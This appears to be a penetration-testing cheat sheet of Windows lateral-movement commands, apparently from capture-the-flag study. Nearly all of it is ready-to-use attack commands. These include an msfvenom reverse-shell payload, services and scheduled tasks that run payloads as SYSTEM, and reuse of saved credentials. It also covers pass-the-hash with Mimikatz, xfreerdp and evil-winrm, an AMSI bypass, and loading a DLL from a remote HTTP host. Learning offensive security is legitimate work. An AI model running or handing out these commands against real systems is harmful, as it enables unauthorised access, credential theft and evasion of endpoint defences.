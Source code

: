 # Connection

## Remote administration

### Scheduler

Note that executables created by msfvenom to be used by a service have to be created with type exe-service instead of exe to prevent the shell from dying after the task is completed.

```
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=<ip> LPORT=<port> -o <filename>.exe
```

With sc.exe

```
sc.exe \\<host> create THMservice binPath="<cmd>" start= auto
sc.exe \\<host> start THMservice
```

With schtasks

```
schtasks /s <host> /RU "SYSTEM" /create /tn "<task name>" /tr "<cmd or payload>" /sc ONCE /sd 01/01/1970 /st 00:00 
schtasks /s <host> /run /TN "<task name>" 
```

### RunAs

Run with stored credentials

```
cmdkey /list                                      //get a list of credentials, runas will use the ones in memory
runas /savecred /user:<domain>\<user> "\\<ip>\<path>"      //connect to share
runas /savecred /user:<domain>\<user> "cmd.exe /k <cmd>"   //run command as user
```

Run by specifying username and password

```
runas /env /noprofile /user:<domain>/<user> <password> "cmd.exe /k <cmd>"
runas /netonly /user:<domain>\<user> "cmd.exe /k <cmd>"
```

Run as another user on the same machine

```
runas /user:<user> "cmd.exe /k <cmd>"
```

### WMI

Execute code

```
wmic.exe /user:<user> /password:<pass> /node:<host> process call create "cmd.exe /c <cmd>" 
```

Run local msi installer

```
wmic.exe /user:<user> /password:<pass> /node:<host>  product call install PackageLocation="<path to msi>"
```

### RDP

Mimikatz

```
privilege::debug
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash> /run:"mstsc.exe /restrictedadmin"
```

Xfreerdp

```
xfreerdp +clipboard /dynamic-resolution /cert-ignore /u:<user> /pth:<ntlm hash> /v:<host>
```

## Powershell remoting

### Manage sessions

Enable remoting (Administrative privileges required)

```
Enable-PSRemoting
```

connect to machine

```
Enter-PSSession -ComputerName <fqdn>
```

Store session data and connect

```
$<varname>= New-PSSession -ComputerName <fqdn>
Enter-PSSession -Sessions <varname>
```

### Code execution

Invoke-Command

```
//disable limit on laguage, enable scriptlets
Invoke-Command -ComputerName <fqdn> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}

Invoke-Command -ComputerName <fqdn> -ScriptBlock {<code>} 
Invoke-Command -ComputerName <fqdn> -FilePath <path>    //script from file
```

#### Code execution with valid credentials

Load credentials

```
$session = New-PSSession -ComputerName <fqdn>
$secPassword = ConvertTo-SecureString '<pass>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb.local\<username>', $secPassword)
```

Execute command

```
Invoke-Command -ComputerName <fqdn> -Credential $cred -ScriptBlock {<commands>}
```

Run a PowerShell script remotely

```
Invoke-Command -Credential $cred -ComputerName <fqdn> -FilePath <path to ps1 file> -Session $session
```

## Powershell + WMI module

### Connect to WMI

Store credentials

```
$username = '<user>';
$password = '<pass>';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Start session. WMI supports two protocols: DCOM (port 135 and 49152-65535) or Wsman (ports 5985 and 5986)

```
$Opt = New-CimSessionOption -Protocol <DCOM|Wsman>
$Session = New-Cimsession -ComputerName <host> -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

### Execute command

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = "<cmd>"
}
```

### Create service

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "<name>";
DisplayName = "<name>";
PathName = "<payload>";
ServiceType = [byte]::Parse("16");
StartMode = "Manual"
}
```

Retrieve and start the service

```
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE '<name>'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
```

### Create scheduled task

```
$Command = "<executable i.e. cmd, powershell...>"
$Args = "<args>"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "<name>"
Start-ScheduledTask -CimSession $Session -TaskName "<name>"
```

### Install MSI package

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "<path to msi>"; Options = ""; AllUsers = $false}
```

## Evil-WinRM

Ps1 files must be stored in path specified by -s option. To execute a script simply type its name in the console.

```
evil-winrm -i <ip> -u Administrator -p <password>
evil-winrm -i <ip> -u Administrator -H <hash>
```

### In-memory execution + AMSI Bypass

Find pre-compiled binaries for in-memory execution here: [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

```
menu
Bypass-4MSI
Invoke-Binary <path to local compiled file>
```

### Dll loader

```
Dll-loader -http -path http://<path to .dll>
Dll-loader -smb -path \\<share>\\<file>.dll
Dll-loader -local -path C:\<path to dll>
```
